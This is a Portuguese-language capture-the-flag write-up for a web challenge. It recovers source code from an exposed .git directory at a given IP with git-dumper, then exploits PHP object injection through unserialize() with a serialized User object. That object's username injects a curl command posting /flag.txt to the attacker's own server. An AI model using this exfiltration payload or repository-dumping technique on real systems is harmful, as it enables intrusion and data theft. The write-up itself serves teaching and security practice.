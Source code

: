 ## A2 - Web App Challenge

### Flag 1
Descrição
``` text
Precisamos retomar o controle do site da companhia de abastecimento das mãos dos terroristas. 
Nosso primeiro passo é tentar repetir os passos deles para descobrir como recuperaram o código fonte.

Recupere o código-fonte desta página.

Acesse: URL
```


Nos é passada uma missão para recuperar o código-fonte da página e uma URL. Logo, nossa primeira ideia é deduzir se por código-fonte estamos falando do HTML (frontend) ou do código que está no servidor e é responsável por prover esta página.

Ao acessar a URL e verificar o código-fonte nos deparamos com o seguinte comentário HTML: `<!-- salvo no git há 15 minutos -->`

Isso pode parecer uma primeira deixa para o que seria o objetivo do desafio. Se imaginarmos que estamos em busca do código-fonte da aplicação no backend, já que o HTML não tem nada de interessante, podemos supor que precisamos descobrir um repositório utilizando o GIT.

Uma falha muito comum é quando o desenvolvedor deixar o repositório GIT como o diretório utilizado pelo servidor de aplicação Web. Com isso, o diretório oculto `.git` também fica acessível na estrutura de diretórios do servidor Web. Ao tentar acessar o endereço `http://URL/.git` recebemos como resposta `Forbidden`, isso pode ser uma configuração do servidor para impedir arquivos ocultos ou apenas impedindo a listagem de diretórios, desta forma podemos tentar acessar um arquivo padrão dentro da estrutura de diretórios do GIT, que seria o `HEAD`. Utilizando o comando curl abaixo podemos notar que de fato há um repositório GIT dentro do `document root` do servidor de aplicação.

```shell
% curl -s http://18.231.191.84/.git/HEAD
ref: refs/heads/master
```

Diante deste fato basta agora fazer o download de todo o repositório para a máquina local e inspecionar os logs e 
commits em busca do código fonte. Para isso podemos utilizar uma ferramenta que extrai a estrutura do repositório, 
como a `git-dumper` disponível em [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper). 
Para instalar a executar seguimos os 
passos a seguir (já com Python 3 instalado):

```shell
git clone https://github.com/arthaud/git-dumper.git
cd git-dumper
python3 -m pip install -r requirements.txt
```

Com o repositório salvo localmente, agora podemos verificar o histórico de commits através do log, para isso executamos o seguinte comando:

```shell
cd repositorio
git logs
python3 git_dumper.py http://URL_desafio/.git desafio
```

Ao executar o script acima teremos a seguinte saída, conforme imagem abaixo:

![img.png](images/img.png)

Agora precisamos verificar os logs do repositório, através dos comandos abaixo:

```shell 
git log
```
Obtemos a seguinte saída:

![img.png](images/img2.png)

Detectamos que há um commit anterior no repositório, o commit X. Executando o comando abaixo podemos verificar quais arquivos foram alterados.

```shell 
git show --name-only 2b9613d5befa217ea7610aef6dc2c7ff04cfc2b4
```
Que nos dará a seguinte saída.

![img_1.png](images/img_1.png)

Notamos a existência do arquivo `secrets.txt`. Entretanto, esse arquivo não está mais no commit atual, se fizermos um `git show` no HEAD podemos obter a mudança feita com a retirada do arquivos.

![img_2.png](images/img_2.png)

Descobrimos a primeira flag: `YSH{RepoSitOrios_No_Document_Ro0T}`

---

### Flag 2
Descrição
````text
Continue sua investida para finalizar nosso ataque.

O que procuramos está em /flag.txt
````


Na segunda flag nos é informado apenas que devemos continuar a investida, logo como estamos diante do código-fonte da aplicação podemos fazer uma revisão do código para detectar algum comportamento estranho.

Ao abrirmos o conteúdo do arquivo `index.php` visualizamos o trecho de código abaixo.

![img_3.png](images/img_3.png)

Imediatamente podemos observar que a entrada do usuário `$_GET['segredo']` está sendo passada como argumento para a função `unserialize` o que pode resultar em desserialização insegura, ou mais precisamente object injection no PHP. Há também no início do arquivo um `include "classes.php"`. Como suspeitamos de desserialização, é primordial saber quais classes estão carregadas que podem ser desserializadas.

![img_4.png](images/img_4.png)

Observando o código acima, podemos perceber a presença da função `exec` usando o atributo `$this->username` como parte do argumento passado. A função `exec` é responsável por executar um programa externo, desta forma, se conseguirmos alterar o atributo `username` conseguiremos execução de comando no backend do sistema. Porém, como chamar o `__destruct` neste caso?

A função `__destruct` da classe em PHP será chamado assim que não houve referências para o objeto em questão, ou durante a sequência de finalização do script. Desta forma, o `__destruct` é o que chamamos de magic method, pois ele é chamado automaticamente.

Sendo assim, sabemos que ao finalizar a execução e destruir um objeto da classe `User` o método `__destruct` será chamado. Portanto, precisamos criar um objeto desta classe, definir o atributo username com nossa injeção de comando, serializar o objeto, encodar em base64 e enviar no parâmetro de URL `segredo`. Como o que estamos procurando está no /flag.txt do sistemas de arquivo, podemos utilizar uma comando para extrair essa informação.

```php
<?php

include 'src/classes.php';

$u = new User();
$u->username = '`curl -F "flag=@/flag.txt" http://meu_servidor`';

echo base64_encode(serialize($u));
```

Executando o código acima, teremos como resultado o objeto PHP serializado em base64. Porém, precisamos ter um 
servidor web, ou a porta 80 aberta, aguardando essa request para que possamos capturar o arquivo enviado. Por fim, acessamos a URL `http://18.231.191.84/?segredo=BASE64_AQUI` passando como valor do parâmetro `segredo` o base64 criado acima, e assim receberemos a seguinte request:

![img_5.png](images/img_5.png)

E capturamos a flag 2: `YSH{WOW_DESSERIALIZACAO_FTW_!!CONGRATS!!}`